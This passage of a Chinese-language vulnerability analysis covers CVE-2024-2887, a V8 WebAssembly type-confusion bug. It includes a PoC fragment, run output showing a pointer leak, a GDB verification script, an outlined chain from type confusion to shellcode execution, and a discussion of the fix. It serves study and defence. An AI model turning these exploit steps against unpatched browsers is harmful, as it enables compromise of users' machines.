    kGCPrefix, kExprStructGet, ...wasmUnsignedLeb(typeB), 0,
  ])
  .exportFunc();
```

逐步解释：

1. `local.get 0`：取 JS 传入的 victim object，静态类型为 externref；
2. `struct.new typeA`：真实创建 Wasm GC Struct A 对象，field0 = victim object（静态字段类型 externref）；
3. `ref.cast typeB`：正常情况下 Struct A 不是 Struct B（字段布局和类型都不同），应当不允许 cast；但 typeA index = 1013 alias 到 `HeapType::kNone`，`IsHeapSubtypeOfImpl(kNone, typeB)` 返回 true，因此 ref.cast 被认为一定成功；
4. `struct.get typeB 0`：同一个实际对象仍是 Struct A，但静态视角变成 Struct B，field0 被按 i32 读取。

这就是要验证的核心：

```text
Struct A { field0: externref }
        │ 错误类型关系
        ▼
Struct B { field0: i32 }
```

它不是 JavaScriptCore 的 StructureID 改写，也不是修改对象结构元数据。准确描述是：**实际对象仍然是 Struct A 实例，但由于错误的 Wasm HeapType 关系，被允许按照 Struct B 的字段类型访问。**

### 运行结果：返回值与 victim 压缩引用对应

运行输出：

```text
[+] debug kV8MaxWasmTypes: 1000
[+] Struct B index: 0 field0=i32
[+] Struct A index: 1013 field0=externref
[+] Alias type index: 1013
[+] Expected internal HeapType::kNone representation: 1013
[+] wasm bytes: 6164
[+] module compiled
[+] instance created
[+] victim:
DebugPrint: 0x1b480029e291: [JS_OBJECT_TYPE]
...
[+] returned i32 from Struct B view: 2744977
[+] returned i32 hex: 0x29e291
```

观察关系：

```text
victim DebugPrint 地址: 0x1b480029e291
返回 i32:              0x0029e291
```

在指针压缩下（机制见 [V8 指针压缩机制](V8指针压缩机制.md)），Wasm externref 字段保存的是压缩引用值。按 Struct B 的 i32 字段读取后，返回了 victim 引用的低 32 位表示（`0x1b480029e291 & 0xffffffff = 0x0029e291`）。

因此运行时证据不是"没有崩溃"，而是：

```text
Struct A.externref 字段中保存的 victim reference
被 Struct B.i32 字段读取
返回值与 victim 的压缩引用位模式对应
```

这满足字段类型混淆的可观察标准——一个 addrof 方向的原语证据。

### GDB 验证：钉死子类型判断

GDB 脚本在 `IsHeapSubtypeOfImpl` 上挂条件断点：

```gdb
set pagination off
set confirm off
file out/x64.debug/d8
set args --allow-natives-syntax /home/sxy/Documents/CVE-2024-2887/poc/struct_to_struct_confusion.js
start
break v8::internal::wasm::IsHeapSubtypeOfImpl if sub_heap.representation_ == 1013 && super_heap.representation_ == 0
commands
  silent
  printf "[gdb] IsHeapSubtypeOfImpl hit: sub_heap=%u super_heap=%u\n", sub_heap.representation_, super_heap.representation_
  finish
  printf "[gdb] IsHeapSubtypeOfImpl return=%d\n", $_return
  continue
end
continue
quit
```

关键输出：

```text
Breakpoint 2 at 0x7ffff6ccb8f6: file ../../src/wasm/wasm-subtyping.cc, line 224.
[+] Struct B index: 0 field0=i32
[+] Struct A index: 1013 field0=externref
[+] Alias type index: 1013
[+] Expected internal HeapType::kNone representation: 1013
[gdb] IsHeapSubtypeOfImpl hit: sub_heap=1013 super_heap=0
Value returned is $1 = true
```

证据怎么读：

```text
sub_heap=1013  这不是正常 in-range 用户类型，在当前 debug limit 下等于 HeapType::kNone
super_heap=0   这是 Struct B 的用户 type index
return=true    V8 的 subtype 系统接受了 "kNone alias subtype of Struct B"
```

这个断点命中的是 `ref.cast typeB` 的类型检查推导路径。它证明：

```text
用户定义 Struct A 的 index alias 到 kNone
  → IsHeapSubtypeOfImpl 把它当作 kNone
  → kNone 被认为是 Struct B 的 subtype
  → ref.cast typeB 被认为总能成功
```

补一个背景——为什么 `kNone` alias 能让 ref.cast 被错误接受：`src/wasm/wasm-subtyping.cc` 中 `HeapType::kNone` 的 subtype 规则本身是"none 是所有非 func、非 extern、非 exn 引用类型的子类型"：

```cpp
case HeapType::kNone:
  // none is a subtype of every non-func, non-extern and non-exn reference
  // type under wasm-gc.
  if (super_heap.is_index()) {
    return !super_module->has_signature(super_heap.ref_index());
  }
  return super_heap != HeapType::kFunc && super_heap != HeapType::kNoFunc &&
         super_heap != HeapType::kExtern &&
         super_heap != HeapType::kExternString &&
         super_heap != HeapType::kNoExtern &&
         super_heap != HeapType::kExn && super_heap != HeapType::kNoExn;
```

super_heap=0 是用户 struct 类型、不是 signature，于是第一条分支返回 true。这条规则对真正的 `none` 是正确的；错的是让"用户 struct 的编号"走进了这条规则。

### 成功标准对应关系

| 标准 | 结果 |
|---|---|
| RecGroup 展开后实际类型总数超过 kV8MaxWasmTypes | 已满足。先通过 recursive group 把真实类型数量推进到 1000，后续普通 type 推到 1013 |
| 用户定义 alias type 获得预期内部 HeapType representation | 已满足。Struct A index 1013 == HeapType::kNone |
| 类型系统错误接受原本不兼容的引用关系 | 已满足。GDB 显示 IsHeapSubtypeOfImpl(1013, 0) 返回 true |
| 实际创建对象是 Struct A | 已满足。函数体执行 `struct.new typeA`，typeA=1013，字段为 externref |
| 后续访问静态类型是 Struct B | 已满足。函数体执行 `ref.cast typeB` 后 `struct.get typeB 0` |
| Struct A 的引用字段按 Struct B 的数值字段解释 | 已满足。Struct A field0=externref，Struct B field0=i32 |
| 返回数值与 victim 引用位模式存在可验证对应关系 | 已满足。DebugPrint victim `0x1b480029e291`，返回 `0x29e291` |

## 由类型混淆到利用原语

一旦可以任意转换引用类型，就可以构造 JS 引擎利用中常见的 primitive（与本站另两条放大线造的是同一种能力，见 [CVE-2021-38003 分析](CVE-2021-38003分析.md)的「放大路线」与 [CVE-2024-5274 分析](CVE-2024-5274分析.md)的「原语构建」）：

| 原语 | 含义 |
| --- | --- |
| `addrof()` | 把 JS 对象引用当成数值泄漏 |
| `fakeObj()` | 把可控数值伪装成 JS 对象引用 |
| AAR | 任意地址读 |
| AAW | 任意地址写 |

这里需要区分两个边界：

1. CVE-2024-2887 直接给出的读写能力主要位于 V8 sandbox / heap cage 内。
2. ZDI 利用链还组合了 GSAB length tracking 路径中的无符号下溢问题，用于把读写能力进一步扩展。

### GSAB 下溢在利用链中的作用

ZDI 原文后半段还介绍了另一个 bug。它不属于 CVE-2024-2887 的根因，但在 Pwn2Own 利用链中用于扩大读写能力。

相关逻辑位于 `v8/src/compiler/graph-assembler.cc`，涉及 length-tracking RAB / GSAB 的长度计算：

```text
length = floor((byte_length - byte_offset) / element_size)
```

正确前提是 `byte_offset <= byte_length`。修复后的逻辑会在计算前做类似检查：

```cpp
if (byte_offset <= byte_length) {
    return byte_length - byte_offset;
} else {
    return 0;
}
```

ZDI 描述的漏洞版本中，GSAB tracking 路径缺少这个下溢检查。如果先利用 CVE-2024-2887 改写 typed array / GSAB 相关对象字段，使得 `byte_offset > byte_length`，那么无符号减法会下溢成接近 2^64 的巨大长度；JIT 编译后的 typed array 访问会用这个错误长度做边界判断，形成更大的越界访问窗口。

完整利用链可以概括为：

```text
DecodeTypeSection 漏检查
-> 用户 struct index 进入内部 HeapType 编码区
-> index 与 HeapType::kNone 发生别名
-> struct.new 接受该 index
-> ref.cast 错误省略运行时检查
-> Wasm GC 类型混淆
-> addrof / fakeObj / sandbox 内读写
-> 篡改 GSAB / TypedArray 字段
-> GSAB 长度计算 uint64 下溢
-> JIT TypedArray 越界访问
-> 进程地址空间读写
-> 覆盖 WebAssembly RWX 代码页
-> shellcode 执行
```

## 补丁理解

WebAssembly type section 根因对应的 V8 修复 CL 是：

```text
5378419: [wasm] Check for type-definition count limit
https://chromium-review.googlesource.com/c/v8/v8/+/5378419
```

这个 patch 修改的是 `src/wasm/module-decoder-impl.h` 中 type section 的解析逻辑：



修复前，`DecodeTypeSection()` 对 recursive group 和普通 type 使用了两套处理路径。recursive group 分支会先拿到 `group_size` 然后检查并 resize；普通 type 分支把当前 type 当成 size 为 1 的 singleton group 直接 `resize(initial_size + 1)`，问题在于 resize 之前没有检查 `initial_size + 1 <= kV8MaxWasmTypes`。因此可以先用 recursive group 把 `module_->types.size()` 推到 `kV8MaxWasmTypes`，再用后续普通 type 继续触发 `resize(initial_size + 1)`——新的用户 type 就此获得内部 `HeapType::Representation` 区间中的编号。

patch 增加的检查正好卡在普通 type 分支 resize 之前：

```cpp
if (initial_size + 1 > kV8MaxWasmTypes) {
  errorf(pc(), "Type definition count exceeds maximum %zu",
         kV8MaxWasmTypes);
  return;
}
```

这段逻辑的含义是：如果当前真实 type 数量已经达到 `kV8MaxWasmTypes`，那么后续任何普通 type 都不能再分配新的 type index。

这个位置很关键。检查必须发生在 `module_->types.resize(initial_size + 1)` **之前**——一旦 resize 先发生，`module_->types` 就已经扩展到内部 heap type 编码区，后续 `consume_subtype_definition()` 再填充类型定义时，就会把攻击者声明的 struct 放到本不应该属于用户 type 的位置。

| 分支 | 修复前 | 修复后 |
| --- | --- | --- |
| recursive group | 检查 `initial_size + group_size` | 保持检查 |
| 普通 type | 直接 `resize(initial_size + 1)` | 先检查 `initial_size + 1 > kV8MaxWasmTypes` |
| 安全不变量 | 普通 type 分支可绕过 | 所有真实 type 分配都不能越过上限 |

所以这个 patch 修复的不是 `struct.new`、`ref.cast` 或 `struct.get` 本身，而是更早的 type index 分配边界。修复后，用户声明的 type 无法再获得 `HeapType::kNone`、`HeapType::kExtern` 等内部编号，两条触发路径都失去前提条件，类型混淆链路被切断——用户 type index 重新被限制在 `0 ... kV8MaxWasmTypes - 1`，内部 `HeapType::Representation` 编号空间不再能被 Wasm 模块中的用户类型占用。

## 根因总结

CVE-2024-2887 的根因可以压缩为一句话：

```text
V8 在解析 Wasm GC recursive type group 时，没有在所有真实 type 分配路径上统一限制
module_->types.size() <= kV8MaxWasmTypes，导致用户 type index 可以进入内部
HeapType 编码区间。
```

关键点可以并成五条：

1. `consume_count(kV8MaxWasmTypes)` 限制的是顶层 entry 数量，而 recursive type group 让一个 entry 展开为多个真实 type；
2. 漏洞版本 group 分支检查了新增数量，普通 type 分支缺少等价检查；
3. 先用 recursive group 填满合法 index 空间，后面的普通 struct 就拿到 `kV8MaxWasmTypes` 之后的 index——恰好是内部 `HeapType::Representation` 的起点；
4. 同一个编号于是有了两套解释：校验路径按 `module_->types[index]` 把它当作用户 struct，类型推理路径按 `HeapType::Representation` 把它当作内部 heap type——与 `kNone`、`kExtern` 的别名由此而来；
5. 两套逻辑对同一个数字的解释不一致，Wasm GC 类型混淆成立。

所以更准确的理解是：

```text
不是 struct.new 修改了 Wasm 内嵌原生 type，
而是用户 type 的 index 撞上了 V8 内部 heap type 的编号。
```

`kNone + struct.new + ref.cast` 是 ZDI 利用链中的触发路径；`kExtern + externref + struct.get` 是 buptsb PoC 中的最小验证路径。两者消费的内部 heap type 不同，使用的 Wasm 指令不同，但都依赖同一个前提：用户 type index 与内部 `HeapType::Representation` 编码空间没有被正确隔离。

## 参考资料

1. [ZDI: CVE-2024-2887: A Pwn2Own Winning Bug in Google Chrome](https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome)
2. [buptsb: CVE-2024-2887 PoC: v8 WebAssembly type confusion, Pwn2Own 2024](https://buptsb.github.io/blog/post/CVE-2024-2887%20PoC-%20v8%20WebAssembly%20type%20confusion%2C%20Pwn2Own%202024.html)
3. [V8: module-decoder-impl.h](https://raw.githubusercontent.com/v8/v8/main/src/wasm/module-decoder-impl.h)
4. [V8: function-body-decoder-impl.h](https://raw.githubusercontent.com/v8/v8/main/src/wasm/function-body-decoder-impl.h)
5. [V8: wasm-module.h](https://raw.githubusercontent.com/v8/v8/main/src/wasm/wasm-module.h)
6. [V8: value-type.h](https://raw.githubusercontent.com/v8/v8/main/src/wasm/value-type.h)
7. [V8: graph-assembler.cc](https://raw.githubusercontent.com/v8/v8/main/src/compiler/graph-assembler.cc)
8. [V8: wasm-subtyping.cc](https://raw.githubusercontent.com/v8/v8/main/src/wasm/wasm-subtyping.cc)
